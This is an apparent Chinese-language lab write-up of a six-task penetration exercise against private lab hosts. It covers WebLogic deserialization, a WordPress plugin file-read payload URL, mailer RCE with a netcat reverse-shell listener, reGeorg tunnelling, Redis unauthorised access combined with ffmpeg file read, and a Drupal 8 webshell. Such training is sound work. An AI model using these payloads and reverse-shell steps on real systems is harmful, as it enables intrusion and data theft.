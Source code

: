 ```yaml
---
date: 2021-05-03
title: 企业渗透2
#subtitle: 
categories: [渗透]
tags: []
---
```


### 实验描述

操作机的操作系统是kali 进入系统后默认是命令行界面 输入startx命令即可打开图形界面。

所有需要用到的信息和工具都放在了/home/Hack 目录下。

本实验的任务是通过外网的两个主机通过代理渗透到内网的两个主机。在渗透的过程中一般需要先进行端口扫描猜测主机上运行的服务，再通过漏洞利用脚本和其他扫描工具进一步确定漏洞存在，进而完成主机渗透拿到权限。

### 实验目的

Weblogic的java反序列漏洞应用
Wordpress任意文件读取的漏洞利用
Wordpress命令执行的漏洞利用
WordPress通过自己修改的EXP，getshell
通过代理扫描内网
Redis未授权访问以及对配置文件的理解
Ffmpeg任意文件的读取结合redis的利用
Drupal由于YAML解析器处理不当导致远程代码执行

### 实验环境

| 操作系统   | IP地址        | 服务器角色 | 登录账户密码                     |
| ---------- | ------------- | ---------- | -------------------------------- |
| Kali Linux | 192.168.2.10  | 操作机     | 用户名：root；密码：Simplexue123 |
| Centos 7   | 192.168.2.11  | 目标机     | 用户名：root；密码：Simplexue123 |
| Centos 7   | 192.168.1.10  | 目标机     | 用户名：root；密码：Simplexue123 |
| Centos 7   | 192.168.1.11  | 目标机     | 用户名：root；密码：Simplexue123 |
| Centos 7   | 192.168.2.200 | 目标机     | 用户名：root；密码：Simplexue123 |

### 任务一  Weblogic反序列化

```
整体扫描外部网络，探测暴露在外部的主机信息
利用java反序列化漏洞利用脚本执行系统命令。
```

实验目的

通过完成本实验任务，要求学生掌握利用java反序列化漏洞利用脚本攻击weblogic服务的技术。掌握weblogic服务的常见端口，启动jar程序的方法和攻击weblogic的流程、方法和技巧，为完成后续企业渗透实验任务奠定坚实的漏洞利用技术基础。

打开kal操作机

访问192.168.2.10：7001

<img src="https://i.loli.net/2021/05/11/8Or6FDo15R3dEy4.png" alt="image-20210511164542470" style="zoom:67%;" />

打开home/HACK目录下的工具

<img src="https://i.loli.net/2021/05/11/5M1iF9b6wA47XfT.png" alt="image-20210511164750762" style="zoom:67%;" />

<img src="https://i.loli.net/2021/05/11/hWqTXOIlcetrGs1.png" alt="image-20210511165117929" style="zoom:67%;" />

输入HOST、端口、以及CMD命令

<img src="https://i.loli.net/2021/05/11/VfiAsMBd74ZwgqL.png" alt="image-20210511165325031" style="zoom:67%;" />

点击connect并执行

根据提示，找到/home/flag下的flag.txt文件

<img src="https://i.loli.net/2021/05/11/5VsN8uqYGF6pomC.png" alt="image-20210511165712024" style="zoom:67%;" />

### 任务二 Wordpress任意文件读取

任务内容：

```
使用wpscan工具扫描wordpress的插件漏洞
主要针对插件WP Hide Security Enhancer存在的任意文件读取漏洞，以此读取到网站主要文件。
```

![image-20210511170357840](https://i.loli.net/2021/05/11/ieEOhInjoWZ9B2Y.png)

利用wpscan扫描wordpress网站，扫描漏洞插件

命令：wpscan --url 192.168.2.11 --enumerate p

<img src="https://i.loli.net/2021/05/11/HxuqNEsvwgU6IMG.png" alt="image-20210511170541006" style="zoom:67%;" />

发现插件存在漏洞

根据提示直接上payload

http://192.168.2.11/wp-content/plugins/wp-hide-security-enhancer/router/file-process.ph p?action=style-clean&file_path=/wp-config.php

得到flag

![image-20210511170853149](https://i.loli.net/2021/05/11/tpTsrgoiRYGIHC2.png)

### 任务三 Wordpress命令执行

任务内容：

```
利用Burpsuite的repeater模块修改包探测漏洞存在的字段。
执行wordpress mailer命令执行漏洞的利用脚本尝试获取shell。
```

操作步骤

```
访问目标网站，在浏览器中配置代理，用Burpsuite拦截请求包
使用Burpsuite的repeater模块探测漏洞字段。
理解wordpress mailer漏洞的原理，执行wp.sh 脚本获取响应 信息
```

首先找到登陆入口

<img src="https://i.loli.net/2021/05/11/ABFOiVKzjkr4a5q.png" alt="image-20210511171155980" style="zoom:67%;" />

对firefox及burpsuite设置代理，拦截请求。

![image-20210511171245109](https://i.loli.net/2021/05/11/C8fGIgnPWyF97i6.png)

![image-20210511171408750](https://i.loli.net/2021/05/11/nDBkXY4lsSg3aiJ.png)

![image-20210511171428356](https://i.loli.net/2021/05/11/HK5n8zt7UhfCONd.png)

利用提供的脚本getshell，获得flag

### 任务四 改进漏洞利用脚本获得命令执行权限

实验目标

```
了解网络安全漏洞的概念以及现有的安全漏洞扫描工具。认知常见网络安全漏洞。
熟悉sendmail命令语法。
掌握webshell命令执行漏洞的常规下载执行的利用思路。
掌握在浏览器上配置代理的方法。
掌握利用Burpsuite的repeater模块改包测试的过程。
```

实验步骤

```
查看漏洞利用脚本wordpress-rce-exploit.sh理解脚本改进的原理。
填写漏洞利用脚本的关键信息如反弹IP，监听端口等。本地监听设置的端口获取反弹的shell。
利用shell上传regeorg的tunnel.php文件，使用regeorg架设代理
通过proxychains设置好regeorg的代理，利用这个代理扫描内网1.0网段
```

<img src="https://i.loli.net/2021/05/11/GJUg7vFEZTt4Ds8.png" alt="image-20210511180514611" style="zoom:67%;" />

首先查看脚本内容

修改recv_host=”192.168.2.200”

设置监听端口

nc –lvvp 7777

反弹shell

### 任务五 redis未授权访问+ffmpeg 任意文件读取

任务内容：

```
查看网页中的信息可知，是通过ffmpeg处理视频的小应用，只有上传，下载和删除功能，此处存在ffmpeg文件读取漏洞，构造特定的avi视频，经过ffmpeg处理之后的视频就会包含想要的文件内容。利用文件读取漏洞获取redis配置文件内容。
redis数据库服务，允许外连且没有设置密码，可以随意访问，此处存在未授权访问漏洞，正常情况下可以写入文件，但是过程中发现，必要的config命令被替换了。而config命令的替换一定是写在redis的配置文件中的，配置文件的路径又可以在redis中执行info获取到。在以上环境中获取到redis服务器的shell。
```

![image-20210511192133312](https://i.loli.net/2021/05/11/1DOPUupfoXK9gmw.png)

### 任务六 drupal8远程代码执行

```
使用浏览器挂代理访问内网机器192.168.1.10。
利用drupal8的php反序列化漏洞向目标服务器写入webshell。
使用Cknife连接已经生成的webshell
```

实验目标

```
了解网络安全漏洞的概念以及现有的安全漏洞扫描工具。认知常见网络安全漏洞。
熟悉网站webshell的概念，理解上传webshell、获取webshell权限的意义和方法。
掌握webshell工具Cknife的基本使用，特别是设置代理的功能，查看上传文件，命令执行等功能的使用。
掌握在浏览器上配置代理的方法。
掌握利用drupal8的php反序列化漏洞的攻击方法和相关的技术原理。
```

操作步骤

```
使用浏览器结合proxychains用之前的代理访问内网中的drupal8的web应用。
弱口令登录目标网站后台
利用反序列化漏洞执行phpinfo 探测网站信息
利用反序列化漏洞写入webshell，并测试存在
用Cknife设置代理连接webshell获取网站的权限
```

![image-20210511192257809](https://i.loli.net/2021/05/11/FxTUPCjXGvIynlB.png)

![image-20210511192310808](https://i.loli.net/2021/05/11/ikNn3sPr6BKC1wb.png)

然后利用exp写入webshell

![image-20210511192516771](https://i.loli.net/2021/05/11/rRZopefLCVQz47c.png)

中国菜刀连接，即可获得flag。

